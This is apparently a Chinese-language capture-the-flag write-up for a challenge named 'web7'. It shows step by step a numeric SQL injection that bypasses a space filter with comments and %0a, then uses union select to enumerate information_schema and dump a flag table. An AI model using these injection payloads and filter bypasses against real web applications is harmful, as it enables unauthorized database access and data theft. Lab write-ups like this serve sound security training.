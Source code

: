 # web7
点击任意
![](vx_images/60707952054571.png =457x)

观察到有参数传递
![](vx_images/475236533652589.png =936x)
猜测可能是注入
1?id=1 or 1=1%23
有错,应该是有过滤空格或=,or

试?id=1/**/and/**/1=1正常查看(?id=1'**/and/**/1=1也可以正常查看)
?id=1/**/and/**/1=2,无法查看
应为数字型注入
查询列数(这里用%0a代替空格)
id=1%0aor%0a1=1%0aorder%0aby%0a3,列数为3时有回显,4没有,列数为3

查看回显位
?id=1%0aor%0a1=1%0aunion%0aselect%0a1,2,3
![](vx_images/581799016874207.png =1228x)
回显位为2,3
查库
?id=1%0aor%0a1=1%0aunion%0aselect%0a1,group_concat(schema_name),3%0afrom%0ainformation_schema.schemata
![](vx_images/25093826745689.png =1094x)


查表
id=1%0aor%0a1=1%0aunion%0aselect%0a1,group_concat(table_name),3%0afrom%0ainformation_schema.tables%0awhere%0atable_schema="web7"
这里的单引号被过滤所以之前判断时加上'也能回显的原因

![](vx_images/302054167160585.png =974x)

查列
1%0aor%0a1=1%0aunion%0aselect%0a1,group_concat(column_name),3%0afrom%0ainformation_schema.columns%0awhere%0atable_name="flag"
![](vx_images/390915030498756.png =424x)

最终查字段
1%0aor%0a1=1%0aunion%0aselect%0a1,group_concat(flag),3%0afrom%0aweb7.flag(直接flag也行,但最好加上库名)
![](vx_images/146742693265176.png =777x)